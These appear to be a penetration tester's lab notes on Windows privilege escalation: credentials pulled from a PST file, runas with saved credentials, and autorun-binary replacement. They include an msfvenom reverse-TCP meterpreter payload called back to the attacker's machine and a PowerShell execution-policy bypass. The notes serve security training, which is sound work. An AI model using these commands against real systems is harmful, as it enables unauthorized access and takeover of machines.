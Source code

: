 open auth_user
```bash
readpst <pst file>
```

- grab user and password
- login through telnet



### Escalation
```powershell
cmdkey /list

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```



# Escalation Path: Registry



## Overview of Autoruns
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

Run powerUp to identify the autorun vulnerabilty:
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

### Escalation via Autorun
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o program.exe
```

in msfconsole:
```bash
use multi/handler > set options
```

Send the program.exe to windows target machine and replace the windows file **/Program Files/Autorun Program/program.exe** by our program.exe

- Now we can disconnect off the machine and log as administrator
- the autorun program will pop up. 
- When u hit RUN, we get the meterpreter shell with root access




## AlwaysInstallElevated
This is a configuration issue, when we can run packages with admin privileges, because **install elevated** is set in the register
 